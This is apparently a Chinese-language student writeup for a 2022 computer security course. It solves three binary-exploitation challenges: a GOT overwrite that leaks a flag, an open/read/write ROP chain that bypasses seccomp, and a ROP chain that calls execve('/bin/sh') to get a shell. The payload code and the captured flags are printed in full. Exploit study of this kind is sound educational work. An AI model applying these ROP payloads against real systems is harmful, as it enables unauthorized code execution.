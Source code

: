 # 2022 Computer Security HW6 Writeup - Pwn

[![hackmd-github-sync-badge](https://hackmd.io/95hGb9pqTd2YIGBXq37MBA/badge)](https://hackmd.io/95hGb9pqTd2YIGBXq37MBA)


* [HW6 github (Writeup and Payload)](https://github.com/fdff87554/Computer-Security-2022/tree/main/homework/Homework-06)

## got2win - LAB
* 觀察一下程式碼，可以看到說只有一個 main function，
    * 會先於 `line: 13` 建立一個 file descriptor，並且以唯讀的方式開啟 `/home/chal/flag` 這個檔案。
    * 並於 `line: 14` 利用 read function 讀取 `/home/chal/flag` 的內容，並且將內容存入 `flag` 這個 buffer 中。
    * 而後會於 `line: 20` 接收我們的 input，並且會將我們的 input 存入 `addr` 這個 value 中。
    * 之後則會在 `line: 22` 利用 read function 在 addr 中 overwrite `0x8` 也就是 8 bytes 的內容。
    * 最後會在 `line: 25` 又操作了一次 read function 操作到 flag 這個內容。
* 可以注意到在 `line: 25` 中的 read function 中的 fd 是 1 (fd: 0 = stdin, fd: 1 = stdout, fd: 2 = stderr)，也就是說我們可以利用這個漏洞來 leak 出 flag 的內容。
* 先用 `checksec --file=chal` 檢查一下程式的保護機制，可以看到 `RELRO: Partial RELRO`, `Stack: Canary found`, `NX: NX enabled`, `PIE: No PIE (0x400000)`。
    * 因為沒有 PIE，所以我們可以直接用 `objdump -d -M intel chal | less` 來取得程式的 address。
    > ![pwn-got2win-checksec](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/pwn/pwn-got2win-checksec.png)
* 那我們的目標就是覆蓋掉 GOT 的 read 改成 write 讓他依照 stdout 的 fd 來輸出 flag 的內容。
* 打開 pwndbg 來找一下 GOT 的狀況，在 pwndbg 中直接輸入 `got` 就會取得 GOT 的狀況，位址會是 `0x404038`。
    > ![pwn-got2win-pwndbg-got](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/pwn/pwn-got2win-pwndbg-got.png)
* 用 `objdump -d -M intel chal | less` 來找一下 write@plt 的位址，可以發現 write@plt 的位址是 `0x4010c0`。
    > ![pwn-got2win-objdump-read](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/pwn/pwn-got2win-objdump-read.png)
* 那目標就是把 GOT 中的 read 改成 write@plt 的位址，因為這樣就等於實際執行了 write 而不是 read 了。會得到 flag: `FLAG{apple_1f3870be274f6c49b3e31a0c6728957f}`

## rop2win - LAB

* 起手式一樣先檢查 `checksec` 的狀況，如下圖有 Canary, NX, no-PIE (可以直接看 address), Partial RELRO。
    > ![pwn-rop2win-checksec](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/pwn/pwn-rop2win-checksec.png)
* 之後觀察一下 source，可以看到有加入 `seccomp` 這個 lib 來保護 syscall 的使用，可以看到只有 `open`, `read`, `write` 這幾個 syscall 可以做使用，其他的 syscall 都會被擋掉。
    > ![pwn-rop2win-source-syscall](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/pwn/pwn-rop2win-source-syscall.png)
* 首先先找到 `ROP_addr` 的位址，可以看到 `ROP_addr` 的位址是 `4e3360`，`fn_addr` 則是 `4e3340`。
    > ![pwn-rop2win-pwndbg-ROP_addr](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/pwn/pwn-rop2win-pwndbg-ROP_addr-fn_addr.png)
* 現在我們的目標很簡單，就是我們希望利用所有已知可用的操作來把 flag 給印出來，不是像其他題目一樣建立 `sh` 的原因是因為，這題的 `seccomp` 並沒有放行 `execve` 這個 syscall，所以我們只能用 `open`, `read`, `write` 這三個 syscall 來達成目的。
* 對應到這題的 c code，我們知道了有三次的輸入機會，分別是給 filename，拿到 ROP 跟 overflow，因此對於我們來說我們這題就是建構 ROP 去指定出我們需要的 syscall。
    * 操作 ROP 在沒有特殊的情況之下，我們會需要 control `rdi` (for param1), `rsi` (for param2), `rdx` (for param3) 跟 `rax` (for syscall number) 這四個 register，因此我們需要的 gadget 會是 `pop rdi; ret;`, `pop rsi; ret;`, `pop rdx; ret;` 跟 `pop rax; ret;` 這四個 gadget。
    * 而這題因為並沒有 `pop rdx ; ret`，因此我們用 `pop rdx ; pop rbx ; ret` 取代，並注意要特別多 parse 一個 `rbx` 的值。
* 看下面的 payload 可以看到我們主要的目標就是實作出 `open("/home/chal/flag", 0)`、`read(3, fn, 0x30)`、`write(1, fn, 0x30)` 這三個 syscall，其中 `read` 的 `fd` 會是 3 的原因是因為 read() 預設會開 0, 1, 2 三個 fd 也就是 stdin, stdout, stderr，因此我們猜測 fd: 3 會是我們的目標 fd。
    > ```python=
    > # open("/home/chal/flag", 0)
    > # read(3, fn, 0x30)
    > # write(1, fn, 0x30) - stdout
    > ROP = flat(
    >     # open(fd, 0)
    >     pop_rdi_ret, fn_addr,
    >     pop_rsi_ret, 0,
    >     pop_rax_ret, 2,
    >     syscall_ret,
    >     
    >     # read(fd, buf, 0x30)
    >     pop_rdi_ret, 3, # guessed opened file fd
    >     pop_rsi_ret, fn_addr,
    >     pop_rdx_ret, 0x30, 0,
    >     pop_rax_ret, 0,
    >     syscall_ret,
    >     
    >     # write(1, buf, 0x30) --> stdout
    >     pop_rdi_ret, 1, # stdout
    >     pop_rax_ret, 1,
    >     syscall_ret,
    > )
    > ```
* 剩下的操作就直接看 paylaod，就可以看到我們的 flag: `FLAG{banana_72b302bf297a228a75730123efef7c41}`

## rop++ - HW

* 這題是一題非常簡潔的 rop 題目，簡單來說就是要我們建構 rop，所以先用 `checksec` 檢查一下我們可以做哪些操作來取得我們要的資料，看到 Canary found / NX enabled / No PIE，所以可以直接查看 Code Address，直接先用 objdump 找 buf address 跟用 `ROPgadget` dump 出所有的 gadget，然後就可以開始建構 rop 了。
* 因為我們的目標還是建立一個空間來儲存我們輸入的 `/bin/sh` string 並且交由 `execve` 去執行，因此我們需要分兩部，也就是建立好正常的 read() rop 來讀取我們的 `/bin/sh` string，然後再建立一個 rop 來執行 `execve`。
* payload 如下，註解已經詳細說明行為了:
    > ```python=
    > ROP = flat(
    >     # read(0, buf, 0x200)
    >     pop_rdi_ret, 0,             # fd:0 - stdin
    >     pop_rsi_ret, writable_addr, # buf - "/bin/sh" string
    >     pop_rdx_ret, 0x7, 0,        # size
    >     pop_rax_ret, 0,             # syscall - read
    >     syscall_ret,
    >     
    >     # execve("/bin/sh", 0, 0)
    >     pop_rdi_ret, writable_addr, # "/bin/sh"
    >     pop_rsi_ret, 0,             # 0
    >     pop_rdx_ret, 0, 0,          # 0
    >     pop_rax_ret, 0x3b,          # syscall - execve
    >     syscall_ret,
    >)
    > ```
* 依照這樣的 Payload，我們只需要在輸入 `/bin/sh` 之後就可以 get shell 了，拿到 flag: `FLAG{chocolate_c378985d629e99a4e86213db0cd5e70d}`
    > ![rop++-demo-image](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/pwn/rop++-demo-image.png)


---
###### tags: `CyberSec` `Writeup` `2022`

<style>
.navbar-brand::after { content: " × Crazyfire Lee"; }
</style>